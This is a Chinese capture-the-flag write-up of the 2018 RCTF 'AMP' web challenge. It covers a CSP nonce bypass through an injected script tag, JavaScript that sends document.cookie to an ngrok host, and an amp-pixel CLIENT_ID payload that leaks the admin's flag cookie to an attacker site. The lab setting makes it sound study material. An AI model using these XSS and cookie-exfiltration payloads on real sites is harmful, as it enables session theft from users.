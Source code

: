 > 原文链接: https://www.anquanke.com//post/id/145885 


# 2018 RCTF-WEB题 AMP记录


                                阅读量   
                                **145665**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p3.ssl.qhimg.com/dm/1024_649_/t01692b068bcea16b2e.png)](https://p3.ssl.qhimg.com/dm/1024_649_/t01692b068bcea16b2e.png)

这是一道RCTF2018的web题，22solved<br>
题目地址<br>[http://amp.2018.teamrois.cn](http://amp.2018.teamrois.cn)<br>
github地址：<br>[https://github.com/zsxsoft/my-rctf-2018/tree/master/amp](https://github.com/zsxsoft/my-rctf-2018/tree/master/amp)

### 

## 0x01 尝试

打开页面，提示输入name作为请求参数：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.yourhome.ren/usr/uploads/2018/05/3118054203.png)

测试name参数yunsle，页面提示如下：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.yourhome.ren/usr/uploads/2018/05/1803830394.png)

点击STOP TRACKING ME后，提示将会记录请求request并发送给admin：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.yourhome.ren/usr/uploads/2018/05/3377454404.png)

查看cookie内容，发现提示，flag在admin的cookie中：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.yourhome.ren/usr/uploads/2018/05/3138808685.png)

提示中提到记录请求以及将会发送给admin，很自然地想到XSS，于是尝试name参数：

```
http://amp.2018.teamrois.cn/?name=%3Cscript%3Ealert(1)%3C/script%3E
```

但是页面并没有弹窗，并且在控制台输出：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.yourhome.ren/usr/uploads/2018/05/2222442631.png)

查看http响应头，发现了做了CSP内容安全策略，并且设置了script-src<br>
了解CSP可以看这里：[https://developer.mozilla.org/zh-CN/docs/Web/Security/CSP](https://developer.mozilla.org/zh-CN/docs/Web/Security/CSP)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.yourhome.ren/usr/uploads/2018/05/4155467236.png)

script-src属性开启将对当前页面上可执行的JS源进行了限制<br>
查看源代码可以看到，所有引用的JS都申明了一个nonce属性，nonce属性中的value是服务端随机生成的字符串<br>
只有申明了nonce属性，并且nonce值和服务端随机数一致时才能执行JS来源：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.yourhome.ren/usr/uploads/2018/05/3884006733.png)

于是，自然地，尝试绕过这里的CSP规则<br>
之前有看到过针对nonce的绕过操作，是利用页面上XSS点之后较近的JS引用中的nonce属性，简单来说可以看下面实例：

```
&lt;p&gt;这是插入点&lt;/p&gt;
&lt;script src="xxx" nonce="AAAAAAAAAAA"&gt;&lt;/script&gt;
```

当插入点可控时，可以建立如下的payload：

```
&lt;script src="http//yourvps/test.js" a="

```

此时，payload插入之后的页面上，将变成：

```
&lt;p&gt;&lt;script src="http//yourvps/test.js" a="&lt;/p&gt;
&lt;script src="xxx" nonce="AAAAAAAAAAA"&gt;&lt;/script&gt;
```

这样就讲nonce包含到了构建的JS引用中，导致绕过

在这里，用上述绕过姿势引入放在服务器上的JS代码，在代码中创建img标签，在img的src中加入cookie值<br>
最后src中将打到ngrox上<br>
构建payload如下：

```
http://amp.2018.teamrois.cn/?name=&lt;script src="http://vps/1.js" a="
```

服务器上JS内容：

```
var img = document.createElement('img');
img.src = 'http://ec492eb4.ngrok.io/3333='+encodeURIComponent(document.cookie);
```

name参数设置为payload提交后，查看本地浏览器已经执行了从服务器上加载的JS代码，并且将本地的cookie打到了ngrox：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.yourhome.ren/usr/uploads/2018/05/2479288435.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.yourhome.ren/usr/uploads/2018/05/1166455824.png)

接下来点击STOP TRACKING ME按钮后，等待服务器端admin查看页面，将cookie打过来<br>
但是等了一会后，接收到的打过来的cookie依然不是真正的flag！<br>
到这里就懵逼了，打回来的cookie里面仍然是提示：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.yourhome.ren/usr/uploads/2018/05/91193408.png)

用ceye再尝试接收了一次，仍然是失败的结果：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.yourhome.ren/usr/uploads/2018/05/4078066859.png)



## 0x02 复现

等比赛结束，看WP后发现，考点是在AMP上（题目和代码注释里都提示了，然而没有去想。。）<br>
AMP的官网：<br>[https://www.ampproject.org/zh_cn/](https://www.ampproject.org/zh_cn/)<br>
简单介绍就是：



> <p><code>谷歌AMP（Accelerated Mobile Pages，加速移动页面）是Google推出法人一种为静态内容构建 web 页面，提供可靠和快速的渲染，加快页面加载的时间，特别是在移动 Web 端查看内容的时间。<br>
AMP HTML 完全是基于现有 web 技术构建的，通过限制一些 HTML，CSS 和 JavaScript 部分来提供可靠的性能。这些限制是通过 AMP HTML 一个验证器强制执行的。为了弥补这些限制，AMP HTML 定义了一系列超出基础 HTML 的自定义元素来丰富内容。</code></p>

这题的页面中，使用了AMP，因此就引入了AMP的标签，这就引入了AMP标签的一些特性

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.yourhome.ren/usr/uploads/2018/05/326408404.png)

官方文档中，有如下的介绍：

```
AMP 提供了以下两个组件，可满足您的分析和衡量需求：amp-pixel 和 amp-analytics。两个组件都会将分析数据发送到定义的端点。
如果您只是跟踪诸如简单的跟踪像素之类的行为，则可以使用 amp-pixel 组件，它提供了基本的网页浏览跟踪功能；网页浏览数据将发送到定义的网址。某些与供应商的集成功能可能需要使用此组件，在这种情况下，这些集成功能将指定确切的网址端点。
```

在官方文档上，对amp-pixel标签有这样一个代码实例：

```
mp-pixel 的简单配置
要创建简单的 amp-pixel 配置，请在 AMP 网页的正文中插入下方示例所示的类似内容：

&lt;amp-pixel src="https://foo.com/pixel?RANDOM"&gt;&lt;/amp-pixel&gt;
&lt;amp-pixel src="https://foo.com/pixel?cid=CLIENT_ID(cid-scope-cookie-fallback-name)"&gt;&lt;/amp-pixel&gt;
```

其中cid-scope-cookie-fallback-name意思是：文档未由AMP代理服务时，备用cookie的名称，如果未提供，则cid作用域将用作cookie名称。<br>
于是当构建如下payload时：

```
&lt;amp-pixel src="https://YOUR_WEBSITE/?cid=CLIENT_ID(FLAG)"&gt;&lt;/amp-pixel&gt;
```

将会把cookie的FLAG的值赋值为变量值

对以上payload进行复现尝试，拿到flag：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.yourhome.ren/usr/uploads/2018/05/3462475756.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.yourhome.ren/usr/uploads/2018/05/2902923243.png)



## 0x03 总结

做题还是有一个快速学习能力的要求，很多东西都是在题目刚刚接触时才会接触到一个新的事物。这时候就需要快速对新事物进行了解，并且找到利用点，这点是最重要的。

另外，这题中AMP的功能和标签要能生效，必须要能走https协议并且不能挂Burpsuit代理<br>
如果挂了代理，https协议失效，v0.js并没有真正生效，AMP标签也会失效：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.yourhome.ren/usr/uploads/2018/05/1933544933.png)

在一开始做题的时候，开了浏览器的Burpsuit代理，所以使用CSP绕过payload可以提交上去（没有被AMP加载的v0.js禁止），但是打不到flag<br>
当不走Burpsuit的时候，payload是提交不了的，会被AMP加载的JS限制，如图：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.yourhome.ren/usr/uploads/2018/05/1550816835.png)
